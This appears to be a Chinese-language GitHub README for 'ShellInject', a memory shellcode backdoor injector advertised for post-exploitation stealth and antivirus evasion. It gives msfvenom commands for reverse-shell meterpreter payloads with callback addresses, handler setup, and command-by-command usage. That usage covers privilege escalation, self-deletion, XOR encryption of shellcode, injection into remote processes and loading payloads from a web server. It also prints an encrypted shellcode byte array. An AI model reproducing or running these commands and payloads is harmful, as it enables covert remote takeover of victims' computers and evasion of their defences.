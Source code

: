 # ShellCode 内存后门注入器

<br>

<div align=center>
  
![logo](https://user-images.githubusercontent.com/52789403/185021479-1816c5bc-2ad4-4d54-beca-08ba5e3b3253.png)

<br>

[![Build status](https://cdn.lyshark.com/archive/LyScript/build.svg)](https://github.com/lyshark/PeView) [![Crowdin](https://cdn.lyshark.com/archive/LyScript/email.svg)](mailto:me@lyshark.com)  [![Download x64dbg](https://cdn.lyshark.com/archive/lydebug/download.svg)](https://github.com/lyshark/lydebug/releases) 

</div>

<br>
<b>版本：1.3</b>
<br>
<b>发布日期：2021-07-05 07:25</b>
<br><br>

ShellInject 是一款通用ShellCode后门注入器，该工具主要用于在后渗透阶段使用，可将后门直接注入到特定进程内存中而不会在磁盘中留下任何痕迹，注入成功后Metasploit即可获取控制权，只要对端不关机则权限会维持，由于内存注入无对应磁盘文件，所以也不会触发杀软报毒。

主要模块与功能:

 - 1.显示可注入进程
 - 2.提升自身权限
 - 3.删除自身痕迹
 - 4.字节数组格式化
 - 5.字节数组格式化
 - 6.文本压缩后异或
 - 7.字符串转为字节数组
 - 8.字节数组加密/解密
 - 9.注入字符串到自身
 - 10.注入字节数组到自身
 - 11.从文本字符串注入
 - 12.注入字符串到远程进程
 - 13.从远程加载字符串并注入
 - 14.从文件读入加密字符串并注入
 - 15.注入加密后的字符串到远程进程

首先需要通过`Metasploit`工具生成一个有效载荷，如下是32位与64位载荷生成命令。
```
32位载荷生成
[root@lyshark ~]# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.116 LPORT=9999 -f c

64位载荷生成
[root@lyshark ~]# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.93.128 LPORT=9999 -f c
```
后台侦听器的配置也分为32位与64位，使用时需要与载荷的位数相对应。
```
32位侦听器配置
msf6 > use exploit/multi/handler
msf6 > set payload windows/meterpreter/reverse_tcp
msf6 > set lhost 192.168.1.116
msf6 > set lport 9999

64位侦听器配置
msf6 > use exploit/multi/handler
msf6 > set payload windows/x64/meterpreter/reverse_tcp
msf6 > set lhost 192.168.93.128
msf6 > set lport 9999
```

**输出可注入进程:** 列举出目前系统中支持注入的进程，输出参数中最左侧是位数，只可做参考有时不太准确。
```
C:\Users\admin\Desktop> sc32.exe --show

[*] x32 进程PID =>      4        进程名 => System
[*] x32 进程PID =>    124        进程名 => Registry
[*] x32 进程PID =>    468        进程名 => smss.exe
[*] x32 进程PID =>    720        进程名 => csrss.exe
[*] x64 进程PID =>   6888        进程名 => explorer.exe
```

**尝试使用令牌提权:** 该命令可以尝试提升自身权限，不过多半提权会是失败的，但也可以试试。
```C
C:\Users\admin\Desktop> sc32.exe --promote

[+] 获取自身Token
[+] 查询进程特权
[*] 已提升为管理员
```

**清除自身痕迹:** 当我们完成远程注入后，记得将自身在系统中删除，此时的ShellCode直接在目标进程中安家了，不需要注入器了。
```
C:\Users\admin\Desktop> sc32.exe --delself

[*] 自身已清除
```

**将攻击载荷格式化为一行:** 将Metasploit生成的ShellCode载荷保存为文件，然后使用该命令直接将其格式化为一行。

在保存ShellCode的时候，请不要保存头部的定义部分，只保存以下代码即可。
```
C:\Users\admin\Desktop> sc32.exe Format --path d://shellcode.txt

fce88f0000006089e531d2648b52308b520c8b52148b722831ff0fb74a2631c0ac3c601d630000687773325f54684......
```

**将攻击载荷格式化并写出:** 这个格式化函数作用与上方相同，只不过可以直接写出到文件中，在你只有一个cmd权限时，可以使用。
```
C:\Users\admin\Desktop> sc32.exe FormatFile --path d://shellcode.txt --output d://format.txt

[+] 已储存 => d://format.txt
```

**加密/解密攻击载荷:** 如上我们可以将shellcode压缩为一行，然后可以调用xor命令，对这段shellcode进行加密处理。
```
C:\Users\admin\Desktop> sc32.exe Xor --path d://format.txt --passwd lyshark

% &{{%ssssssus{z&vpr'quw{!vqps{!vqs {!vqrw{!tqq{pr%%s%!tw"qupr s" p urt sqq qs r %s'
```

**压缩载荷并转字节数组:** 将一段已经压缩过的shellcode代码转换为字节数组格式，这个格式可以直接使用。
```
C:\Users\admin\Desktop> sc32.exe Xchg --input d://format.txt --output d://array.txt

[+] 字节已转为双字节
[*] 已写出ShellCode列表 => d://array.txt
```

**异或加密/解密字节数组:** 将字节数组整体加密或解密为字节数组，无需在程序代码中转换，使用更方便。
```
C:\Users\admin\Desktop>sc32.exe XorArray --path d://array.txt --passwd lyshark

unsigned char ShellCode[] =
"\xbf\xab\xcc\x43\x43\x43\x23\xca\xa6\x72\x91\x27\xc8\x11\x73\xc8"
"\x11\x4f\xc8\x11\x57\xc8\x31\x6b\x72\xbc\x4c\xf4\x9\x65\x72"
"\x83\xef\x7f\x22\x3f\x41\x6f\x63\x82\x8c\x4e\x42\x84\xa\x36"
"\xac\x11\xc8\x11\x53\x14\xc8\x1\x7f\x42\x93\xc8\x3\x3b\xc6"
"\x83\x37\xf\x42\x93\xc8\xb\x5b\xc8\x1b\x63\x42\x90\x13\xc6"
"\x8a\x37\x7f\xa\xc8\x77\xc8\x42\x95\x72\xbc\x72\x83\x82\x8c"
"\x4e\xef\x42\x84\x7b\xa3\x36\xb7\x40\x3e\xbb\x78\x3e\x67\x36"
"\xa3\x1b\xc8\x1b\x67\x42\x90\x25\xc8\x4f\x8\xc8\x1b\x5f\x42"
"\x90\xc8\x47\xc8\x42\x93\xca\x7\x67\x67\x18\x18\x22\x1a\x19"
"\x12\xbc\xa3\x1b\x1c\x19\xc8\x51\xaa\xc3\xbc\xbc\xbc\x1e\x2b"
"\x70\x71\x43\x43\x2b\x34\x30\x71\x1c\x17\x2b\xf\x34\x65\x44"
"\xca\xab\xbc\x93\xfb\xd3\x42\x43\x43\x6a\x87\x17\x13\x2b\x6a"
"\xc3\x28\x43\xbc\x96\x29\x49\x2b\x83\xeb\x1e\xc3\x2b\x41\x43"
"\x64\x4c\xca\xa5\x13\x13\x13\x13\x3\x13\x3\x13\x2b\xa9\x4c"
"\x9c\xa3\xbc\x96\xd4\x29\x53\x15\x14\x2b\xda\xe6\x37\x22\xbc"
"\x96\xc6\x83\x37\x49\xbc\xd\x4b\x36\xaf\xab\x24\x43\x43\x43"
"\x29\x43\x29\x47\x15\x14\x2b\x41\x9a\x8b\x1c\xbc\x96\xc0\xbb"
"\x43\x3d\x75\xc8\x75\x29\x3\x2b\x43\x53\x43\x43\x15\x29\x43"
"\x2b\x1b\xe7\x10\xa6\xbc\x96\xd0\x10\x29\x43\x15\x10\x14\x2b"
"\x41\x9a\x8b\x1c\xbc\x96\xc0\xbb\x43\x3e\x6b\x1b\x2b\x43\x3"
"\x43\x43\x29\x43\x13\x2b\x48\x6c\x4c\x73\xbc\x96\x14\x2b\x36"
"\x2d\xe\x22\xbc\x96\x1d\x1d\xbc\x4f\x67\x4c\xc6\x33\xbc\xbc"
"\xbc\xaa\xd8\xbc\xbc\xbc\x42\x80\x6a\x85\x36\x82\x80\xf8\xb3"
"\xf6\xe1\x15\x29\x43\x10\xbc\x96";
```

**将攻击载荷注入自身反弹:** 将一段压缩过的shellcode注入到自身进程并反弹权限。
```
C:\Users\admin\Desktop> sc32.exe InjectSelfShell --shellcode fce88f0000006031d2648b52308b520c***
```

**注入字节数组到自身进程:** 由于字节数组无法直接命令行方式传递，所以只能在文件中获取并压缩解码反弹。
```
C:\Users\admin\Desktop> sc32.exe InjectArrayByte --path d://shellcode.txt
[+] 解码地址: 19db64
```

**从文件中读入并注入:** 从文件中读入一段已经压缩过的shellcode并执行反弹。
```
C:\Users\admin\Desktop> sc32.exe FileInjectShell --path d://format.txt
```

**注入攻击载荷到远程进程:** 该功能主要用于将代码注入到远程进程中，此处参数已经规范化。
```
C:\Users\admin\Desktop> sc32.exe InjectProcShell --pid 17948 --shellcode fce88f0000006031d2648b52308b520c89e****
```

**从远程加载载荷并注入:** 从远程Web服务器上获取到需要注入的代码，远程服务器保存一行格式字符串即可。
```
C:\Users\admin\Desktop> sc32.exe InjectWebShell --address 127.0.0.1 --payload shellcode.raw
```

**直接运行加密的攻击载荷:** 加密模块可以直接运行被加密过后的shellcode并反弹，注入时需要传递解码密码。
```
C:\Users\admin\Desktop> sc32.exe EncodeInFile --path d://encode.txt --passwd lyshark
```

**加密注入远程进程反弹:** 直接注入加密后的代码到远程进程中，实现方式如上。
```
C:\Users\admin\Desktop> sc32.exe EncodePidInFile --pid 17480 --path d://encode.txt --passwd lyshark
```

